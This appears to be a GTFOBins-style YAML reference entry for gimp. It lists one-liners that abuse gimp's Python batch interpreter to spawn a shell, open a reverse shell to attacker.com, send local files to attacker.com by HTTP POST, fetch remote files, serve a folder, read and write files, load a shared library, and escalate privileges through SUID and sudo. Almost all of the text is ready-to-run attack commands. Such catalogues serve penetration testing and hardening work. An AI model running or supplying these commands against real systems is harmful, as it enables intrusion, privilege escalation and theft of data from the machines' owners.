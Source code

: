 ```yaml
---
description: `gimp` hangs after executing the Python code and can be terminated pressing `ctrl-c`.
functions:
  shell:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.system("sh")'
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")'
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
    - code: |
        gimp -idf --batch-interpreter=python-fu-eval -b 'open("file_to_write", "wb").write("DATA")'
  file-read:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'print(open("file_to_read").read())'
  library-load:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid:
    - code: ./gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.execl("/bin/sh", "sh", "-p")'
  sudo:
    - code: sudo gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.system("sh")'
---
```

